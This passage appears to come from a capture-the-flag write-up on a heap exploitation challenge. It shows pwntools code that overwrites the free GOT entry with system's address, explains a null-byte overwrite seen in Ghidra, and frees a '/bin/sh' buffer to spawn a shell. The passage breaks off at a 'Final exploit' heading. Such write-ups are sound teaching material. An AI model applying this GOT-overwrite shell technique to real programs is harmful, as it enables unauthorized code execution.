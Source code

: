```python
allocate_bot(3, 32, b'\x00\x00\x00\x00\x00\x00\x00\x00' + p64(system_real_address) + b'\xff')
```
- this line will do it, with `malloc` we are writing starting from address `0x404240` 8 bytes of `\x00` and then the `system` function real address


##### But, why we need to allocate a 32 bytes botname in this case?
Well we need it because of the implementation of the reading function...
Let's take a look in ghidra:
- ![[Pasted image 20240609150505.png]]
	- At line 18 we can see that when we have read the number of bytes equal to the length we chose ( in this case `param_2` ) the next position of `param_1` is set to `/0` that is the terminator string
	- This because we can see that `local_20 = param_1` at line 12

==**We can understand that the last byte is set to null after the setting of the previous bytes...**==

This means that when we write 8 bytes of `\x00` and then the address of `system` we are writing 16 bytes. 
- So in this case the 17th byte will be overwritten with `NULL`. 
- But the 17th byte is the first byte of the `puts` function address that is a function used in the program to print strings and that is called in the `attack` function we use to perform our attack
	- this will lead us to the raising of an exception because the `puts` address is corrupted

**==So we use 32 byte botnames in order to set the 33th byte to `NULL` that will overwrite a memory address byte that doesn't matter for us...==**



### Gain a shell

At this point we have overwritten the `free` GOT entry, so each call to `free` from now will trigger a real call to `system`.

So what we can do is to allocate a bot that contains `/bin/sh` as botname, and so that allocates the string `/bin/sh`.

After that we have just to deallocate this bot in order to trigger:
- `free` on `/bin/sh` that will trigger instead `system("/bin/sh")`

So we can easily do:
```python
# allocate a new bot with '/bin/sh' in it and call free on it to obtain system('/bin/sh')
allocate_bot(9, 16, b'/bin/sh\x00\xff')

p.sendline(b'2') # remove bot

p.sendline(str(9).encode()) # bot id

p.interactive()
```
- we wrap `\x00` to the string as terminator char



### Final exploit 
